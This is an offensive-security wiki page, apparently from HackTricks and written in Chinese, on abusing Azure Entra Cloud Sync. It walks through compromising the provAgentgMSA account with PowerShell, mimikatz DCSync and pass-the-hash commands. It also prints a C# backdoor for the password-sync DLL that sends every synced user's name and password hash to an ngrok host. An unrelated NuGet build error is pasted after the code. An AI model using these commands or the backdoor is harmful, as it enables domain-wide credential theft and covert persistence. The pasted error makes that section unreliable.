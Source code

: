 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

**Cloud Sync** 基本上是 Azure 用于 **将用户从 AD 同步到 Entra ID** 的新方式。

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync 是 Microsoft 提供的一项新服务，旨在满足和实现您在用户、组和联系人同步到 Microsoft Entra ID 的混合身份目标。它通过使用 Microsoft Entra 云配置代理而不是 Microsoft Entra Connect 应用程序来实现这一点。然而，它可以与 Microsoft Entra Connect Sync 一起使用。

### 生成的主体

为了使其正常工作，在 Entra ID 和本地目录中创建了一些主体：

- 在 Entra ID 中，创建了用户 `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`)，其角色为 **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`)。

> [!WARNING]
> 此角色曾经拥有许多特权权限，可以用于 [**提升权限甚至到全局管理员**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)。然而，Microsoft 决定删除此角色的所有权限，并仅分配一个新角色 **`microsoft.directory/onPremisesSynchronization/standard/read`**，该角色实际上不允许执行任何特权操作（如修改用户的密码或属性或向 SP 添加新凭据）。

- 在 Entra ID 中，还创建了没有成员或所有者的组 **`AAD DC Administrators`**。如果使用 [`Microsoft Entra Domain Services`](./az-domain-services.md)，此组非常有用。

- 在 AD 中，创建了服务帐户 **`provAgentgMSA`**，其 SamAccountName 类似于 **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`)，或者需要具有 [**这些权限的自定义帐户**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)。通常会创建默认帐户。

> [!WARNING]
> 除其他权限外，服务帐户 **`provAgentgMSA`** 具有 DCSync 权限，允许 **任何人一旦妥协它就能妥协整个目录**。有关 DCSync 的更多信息，请查看 [DCSync 检查此](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)。

> [!NOTE]
> 默认情况下，具有 **`adminCount` 为 1 的已知特权组（如域管理员）的用户出于安全原因不会与 Entra ID 同步。然而，其他没有此属性的特权组成员或直接分配高权限的用户 **可以被同步**。

## 密码同步

该部分与以下内容非常相似：

{{#ref}}
az-connect-sync.md
{{#endref}}

- **密码哈希同步** 可以启用，以便用户能够 **使用其 AD 密码登录 Entra ID**。此外，每当在 AD 中修改密码时，它将在 Entra ID 中更新。
- **密码回写** 也可以启用，允许用户在 Entra ID 中修改其密码，并自动同步其在本地域中的密码。但根据 [当前文档](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback)，为此需要使用 Connect Agent，因此请查看 [Az Connect Sync 部分](./az-connect-sync.md) 以获取更多信息。
- **组回写**：此功能允许将 Entra ID 中的组成员资格同步回本地 AD。这意味着如果用户被添加到 Entra ID 中的组，他们也将被添加到 AD 中的相应组。

## 侧向移动

### AD --> Entra ID

- 如果 AD 用户正在从 AD 同步到 Entra ID，则从 AD 到 Entra ID 的侧向移动非常简单，只需 **妥协某个用户的密码或更改某个用户的密码或创建一个新用户并等待其同步到 Entra ID 目录（通常只需几分钟）**。

因此，您可以例如
- 妥协 **`provAgentgMSA`** 帐户，执行 DCSync 攻击，破解某个用户的密码，然后使用它登录 Entra ID。
- 只需在 AD 中创建一个新用户，等待其同步到 Entra ID，然后使用它登录 Entra ID。
- 修改 AD 中某个用户的密码，等待其同步到 Entra ID，然后使用它登录 Entra ID。

要妥协 **`provAgentgMSA`** 凭据：
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
现在您可以使用 gMSA 的哈希值对 Entra ID 执行 Pass-the-Hash 攻击，使用 `provAgentgMSA` 账户并保持持久性，从而能够对 AD 执行 DCSync 攻击。

有关如何破坏 Active Directory 的更多信息，请查看：

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> 请注意，无法根据其属性为同步用户在 Cloud Sync 配置中授予 Azure 或 EntraID 角色。然而，为了自动授予同步用户权限，某些 **来自 AD 的 Entra ID 组** 可能会被授予权限，以便这些组内的同步用户也能接收这些权限，或者 **可以使用动态组**，因此请始终检查动态规则和潜在的滥用方式：

{{#ref}}
../../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

关于持久性，[这篇博客文章](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) 建议可以使用 [**dnSpy**](https://github.com/dnSpy/dnSpy) 来后门 **`Microsoft.Online.Passwordsynchronisation.dll`**，该文件位于 **`C:\Program Files\Microsoft Azure AD Sync\Bin`**，由 Cloud Sync 代理使用以执行密码同步，使其将被同步用户的密码哈希导出到远程服务器。哈希是在 **`PasswordHashGenerator`** 类内部生成的，博客文章建议添加一些代码，使该类看起来像（注意 `use System.Net` 和 `WebClient` 的使用以导出密码哈希）：
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet 包恢复失败，项目 AzTokenFinder：无法找到包 'System.Security.Cryptography.X509Certificates' 的版本 '4.3.2'。  
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: 在源 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\' 中未找到包 'System.Security.Cryptography.X509Certificates.4.3.2'。  
请查看错误列表窗口以获取详细的警告和错误。

### Entra ID --> AD

- 如果启用了 **Password Writeback**，您可以从 Entra ID 修改某些用户的密码，如果您可以访问 AD 网络，则可以使用这些密码进行连接。有关更多信息，请查看 [Az Connect Sync section](./az-connect-sync.md) 部分，因为密码写回是通过该代理配置的。

- 此时，Cloud Sync 还允许 **"Microsoft Entra ID to AD"**，但经过一段时间后我发现它无法将 EntraID 用户同步到 AD，并且它只能同步与密码哈希同步的 EntraID 用户，这些用户来自与我们正在同步的域属于同一域林的域，正如您在 [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits) 中所读到的：

> - 这些组只能包含本地同步的用户和/或额外的云创建的安全组。  
> - 被同步的本地用户帐户和此云创建的安全组的成员，可以来自同一域或跨域，但它们必须来自同一林。

因此，该服务的攻击面（和实用性）大大降低，因为攻击者需要破坏用户正在同步的初始 AD，才能破坏另一个域中的用户（而且显然两个域必须在同一林中）。

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}
